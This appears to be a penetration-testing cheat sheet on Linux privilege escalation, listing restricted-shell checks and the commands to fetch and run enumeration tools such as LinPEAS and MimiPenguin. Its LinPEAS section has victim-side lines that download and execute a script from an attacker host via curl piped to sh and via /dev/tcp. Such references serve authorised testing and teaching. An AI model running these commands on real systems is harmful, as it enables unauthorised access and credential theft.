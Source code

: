 ### Restricted Shells
##### Test for Restricted Shell with Redirect
```bash
id > id.txt
```
##### Check Environment Variables for Restricted Shell
```bash
echo $PATH
echo $SHELL
```

### 3rd Party Tools
##### [LinEnum](https://github.com/rebootuser/LinEnum)
```bash
./LinEnum.sh -s -r report -e /tmp/ -t
```
##### [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
```bash
# Running on Legacy Python 2.6/2.7 System
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python linuxprivchecker.py -w -o linuxprivchecker.log

# Running Later Versions of Python
pip install linuxprivchecker
linuxprivchecker -w -o linuxprivchecker.log
# if runpy fails to add the script to your path
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

##### [Unix-Privesc-Check](https://pentestmonkey.net/tools/unix-privesc-check)
```bash
wget "https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz"
./unix-privesc-check > output.txt
```

##### [MimiPenguin](https://github.com/huntergregal/mimipenguin)
```bash
git clone https://github.com/huntergregal/mimipenguin.git
cd mimipenguin
chmod +x mimipenguin.sh
./mimipenguin.sh
```

##### [UNIX-PrivEsc](https://github.com/FuzzySecurity/Unix-PrivEsc)
```bash
https://github.com/FuzzySecurity/Unix-PrivEsc
```

##### [LinPEAS](https://github.com/carlospolop/PEASS-ng)
```bash
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

```